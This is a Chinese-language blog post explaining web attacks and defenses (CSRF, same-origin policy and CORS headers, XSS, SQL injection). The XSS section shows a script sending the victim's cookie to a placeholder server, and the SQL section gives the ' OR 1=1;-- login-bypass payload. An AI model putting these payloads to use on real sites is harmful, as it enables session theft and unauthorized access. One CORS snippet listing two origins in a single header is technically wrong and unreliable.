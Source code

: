 ```yaml
---
title: (技術)惡意攻擊與網頁資安
tags:
    - CSRF
    - XSS
    - Same-Origin Policy
    - SQL injection
author: Boris Chien
categories:
    - Security
abbrlink: 19592
date: 2023-03-18 11:24:03
top_img: false
cover: images/webSecurity/cover.webp
---
```


## 被黑客攻擊的慘痛經驗

{% note danger no-icon %}
未踏入軟體開發領域前，曾經歷兩次黑客攻擊事件，第一次是高中時，大名鼎鼎的臉書釣魚連結，國中好友私訊(他也中毒了)，標題是，我不敢相信這是你，好奇心驅使下，打開就立刻跳轉到奇怪的頁面，雖然馬上關掉並且改密碼，但隔天還是收到大量親朋好友通知，說帳號散播奇怪的廣告連結，只能逐一道歉解釋。
第二次是大學時，瘋迷一款手機生存遊戲，雖然小眾並且主題冷門，但可玩性高，當時跟朋友打副本，突然收到[腳本小子](https://zh.wikipedia.org/zh-tw/%E8%84%9A%E6%9C%AC%E5%B0%8F%E5%AD%90)私訊，威脅說不給寶物就要封鎖我帳號，當時並不理會，直到隔天登入發現帳號被鎖，該遊戲是P2P架構，人物的攻擊力、屬性、道具資料均儲存在客戶端，又作為伺服器運算，即便沒有相關知識，也能透過暴力嘗試+手機修改器肆意修改數值。
{% endnote %}



## 沒有絕對安全的系統

[我是誰：沒有任何一個系統是安全的](https://zh.wikipedia.org/zh-tw/%E6%88%91%E6%98%AF%E8%B0%81%EF%BC%9A%E6%B2%A1%E6%9C%89%E7%BB%9D%E5%AF%B9%E5%AE%89%E5%85%A8%E7%9A%84%E7%B3%BB%E7%BB%9F)中，主角利用巧妙的[社交工程學](https://zh.wikipedia.org/zh-tw/%E7%A4%BE%E4%BC%9A%E5%B7%A5%E7%A8%8B%E5%AD%A6)，輕易地破解各種戒備森嚴的德國聯邦情報局，後半部與MRX各種鬥智鬥勇讓人看得大呼過癮，雖然難以防範所有的攻擊，但熟悉各種攻擊手法，才能盡可能降低被駭入的機率。


## 攻擊類型

> -   惡意軟體
> -   網路釣魚
> -   中間人
> -   阻斷服務
> -   SQL 注入
> -   APT 攻擊（進階持續性威脅）
> -   零時差攻擊
> -   跨網站指令碼攻擊（XSS）

[Day 4 : 觀念篇 - 常見的資安攻擊類型有哪些？](https://ithelp.ithome.com.tw/articles/10293786)

## 跨站請求偽造 CSRF

簡單來說:有人偽造使用者身分去做壞事

伺服器認證，大多透過 Request 資訊判斷，無法確認來源是否為本人，這也是多因素驗證漸漸取代單一驗證原因之一。

當使用者已經登入了一個網站並開啟 session，攻擊者就可以利用 CSRF 攻擊來在使用者不知情的情況下，以使用者的名義向該網站發出各種請求，例如發送電子郵件、張貼消息、轉賬等，以達到攻擊者的目的。

攻擊者可以在網站上放置一個假的表單，這個表單的 action 指向受害者網站的某個操作，當受害者登入該網站後點擊假表單時，請求就會被發送，伺服器無法區分這個請求是由攻擊者還是受害者發出的，就會執行相應的操作。

## 網頁防護

* 隨機 token，在表單提交 token 確認請求的合法性，這樣攻擊者就無法通過假表單來進行攻擊。

* Referrer Policy，限制來自外部網站的請求，避免攻擊者通過 Referer 欄位來進行攻擊。

* 驗證機制，例如 Captcha，讓攻擊者無法自動化地提交假表單。

* 避免 GET 請求中傳遞敏感數據，將其改為 POST 請求或加密來保護數據。

* 敏感數據保存在服務端，並通過 Session Id 或其他方式進行身份驗證。

* Middleware，檢查和過濾 HTTP 請求。XSS，SQL 注入，跨站請求偽造，點擊劫持攻擊

## 同源策略 Same-Origin Policy

網頁調用第三方服務，基於安全性，會限制非同源網域請求。在網站 A 的前端中發送了請求到網站 B，瀏覽器會阻止該請求並報告 CORS 錯誤。避免跨站點請求偽造 (CSRF) 或跨點腳本 (XSS)。
瀏覽器使用同源策略來防止跨域請求，只允許訪問屬於同一個源。如果需要向其他源的資源發送請求，可以使用跨域資源共享（CORS）。

## 跨域資源共享

瀏覽器與伺服器配合，才能實現跨域請求。

### CORS

跨域資源共享是一種標準的瀏覽器機制，它使用額外的 HTTP header 來告訴瀏覽器哪些源是被允許的。當瀏覽器發送跨域請求時，伺服器可以在回應中設置相應的 CORS header，告訴瀏覽器是否允許跨域請求，允許請求方法、頭部等。在前端代碼中，可以使用 XMLHttpRequest 或 Fetch API 等方式發送跨域請求，瀏覽器會自動處理 CORS 機制。


### 伺服器回應

{% codeblock lang:php %}
header('Access-Control-Allow-Origin: https://example.com');
{% endcodeblock %}

白名單
{% codeblock lang:php %}
header('Access-Control-Allow-Origin: https://example.com, https://example.org');
{% endcodeblock %}

2.特定方法
{% codeblock lang:php %}
header('Access-Control-Allow-Methods: GET, POST, PUT, DELETE');
{% endcodeblock %}

3.特定 headers
{% codeblock lang:php %}
header('Access-Control-Allow-Headers: Origin, Content-Type, Accept');
{% endcodeblock %}

4.禁用憑證

{% codeblock lang:php %}
header('Access-Control-Allow-Credentials: false');
{% endcodeblock %}

5.請求數量限制
{% codeblock lang:php %}
header('Access-Control-Max-Age: 3600');
{% endcodeblock %}

## XSS

> 惡意使用者將程式碼注入到網頁上，其他使用者在觀看網頁時就會受到影響。這類攻擊通常包含了 HTML 以及瀏覽器語言。

[XSS 攻擊](https://zh.wikipedia.org/zh-tw/%E8%B7%A8%E7%B6%B2%E7%AB%99%E6%8C%87%E4%BB%A4%E7%A2%BC)
{% codeblock lang:js %}

<script>
var i = new Image();
i.src = "http://yourserver.com/log.php?cookie=" + document.cookie;
</script>

{% endcodeblock %}

SRC 設置為攜帶用戶 cookie 信息的 URL。當瀏覽器加載圖像時，發送 HTTP 請求到攻擊者的服務器，夾帶受害者 cookie。攻擊者可以在伺服器記錄 cookie，用於進一步攻擊。

* 輸入驗證和過濾：在用戶輸入數據之前對其進行驗證和過濾。可以使用一些現成的庫，如 DOMPurify 和 XSS 庫來進行輸入驗證和過濾。這可以幫助防止用戶在輸入中包含惡意腳本。

* 轉義輸出：在將用戶輸入數據渲染到頁面上之前，應將其進行轉義。防止惡意腳本在頁面上執行。例如，將所有特殊字符（如<、>和&）轉換為它們的 HTML 實體編碼（如<、>和&）。

* Content Security Policy（CSP）：指定來源加載資源。使用 CSP 可以幫助防止惡意腳本的注入和執行。例如，可以設置策略，禁止加載來外源腳本或樣式表。

* 設置 HTTP-only Cookie：設置 Cookie 為 HTTP-only。防止 XSS 攻擊者在用戶瀏覽器中竊取 Cookie。


## SQL injection

> SQL 隱碼或 SQL 注碼，是發生於應用程式與資料庫層的安全漏洞。簡而言之，是在輸入的字串之中夾帶 SQL 指令，在設計不良的程式當中忽略了字元檢查，那麼這些夾帶進去的惡意指令就會被資料庫伺服器誤認為是正常的 SQL 指令而執行，因此遭到破壞或是入侵

[SQL 注入](https://zh.wikipedia.org/zh-tw/SQL%E6%B3%A8%E5%85%A5)

users 表

```
users
------------------
id | username | password
------------------
1  | Alice    | pass123
2  | Bob      | 12345
3  | Charlie  | qwerty
```

表單
{% codeblock lang:html %}

<form method="POST" action="login.php">
  <label for="username">Username:</label>
  <input type="text" id="username" name="username">
  <br>
  <label for="password">Password:</label>
  <input type="password" id="password" name="password">
  <br>
  <input type="submit" value="Login">
</form>
{% endcodeblock %}

惡意 SQL
{% codeblock lang:sql %}
' OR 1=1;--
{% endcodeblock %}

SQL 變成
{% codeblock lang:sql %}
SELECT \* FROM users WHERE username='' OR 1=1;--' AND password=''
{% endcodeblock %}

users 全部選出
{% codeblock lang:sql %}
SELECT \* FROM users
{% endcodeblock %}


## 總結

* 前端，輸入驗證、過濾、清洗、轉義。

* 後端，身份驗證和授權，過濾非法、未授權請求。

* 雲端，防止惡意流量。

